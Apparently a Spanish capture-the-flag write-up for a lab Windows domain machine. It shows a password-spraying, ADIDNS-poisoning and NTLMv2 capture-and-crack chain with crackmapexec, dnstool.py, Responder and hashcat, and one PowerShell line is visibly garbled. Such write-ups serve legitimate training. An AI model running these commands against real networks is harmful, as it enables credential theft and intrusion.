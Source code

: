 Buscamos información interesante:
```bash
abiword --to=txt --to-name=fd://1 *.pdf | grep -C 5 "password"
```

Encontramos que `NewIntelligenceCorpUser9876` es una contraseña predeterminada que los usuarios deben cambiar después de iniciar sesión.

## Explotación

Verificamos si algún usuario no cambió la contraseña con crackmapexec:
```bash
crackmapexec smb 10.10.10.248 -u users.txt -p NewIntelligenceCorpUser9876
```

Descubrimos que `tiffany.Molina` aún no cambió su password.

Verificamos los recursos compartidos SMB:
```bash
crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
smbclient \\\\10.10.10.248\\IT -U Tiffany.Molina%NewIntelligenceCorpUser9876
get downdetector.ps1
```

Analizamos el script downdetector.ps1:
```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
    try {
        $request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
        if(.StatusCode -ne 200) {
            Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
        }
    } catch {}
}
```

## Abuso de ADIDNS

Usamos dnstool.py para agregar un registro DNS malicioso:
```bash
python3 dnstool.py -u intelligence\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-evil --data 10.10.16.4 --type A 10.10.10.248
```

Interceptamos el hash NTLMv2 con Responder:
```bash
sudo responder -I tun0
```

Crackeamos el hash con hashcat:
```bash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```
